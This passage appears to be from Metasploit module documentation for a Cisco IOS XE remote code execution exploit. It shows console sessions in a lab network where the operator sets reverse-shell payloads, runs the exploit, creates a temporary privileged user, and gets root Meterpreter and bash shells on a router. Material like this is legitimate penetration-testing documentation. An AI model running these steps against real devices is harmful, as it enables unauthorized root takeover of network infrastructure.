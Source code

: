 ### Unix Target (IOS XE 17.3.2)

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 1
target => 1
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'JAonVuJS' with password 'vYecWhWk'
[*] Removing user 'JAonVuJS'
[*] Sending stage (24772 bytes) to 192.168.86.58
[*] Meterpreter session 8 opened (192.168.86.42:4444 -> 192.168.86.58:65016) at 2023-11-06 17:03:34 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : router
OS           : Linux 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'TVtEhbdd' with password 'NtRvujcZ'
[*] Removing user 'TVtEhbdd'
[*] Command shell session 9 opened (192.168.86.42:4444 -> 192.168.86.58:65036) at 2023-11-06 17:04:28 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux router 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.58 - Command shell session 9 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```

### Unix Target (IOS XE 16.12.3)
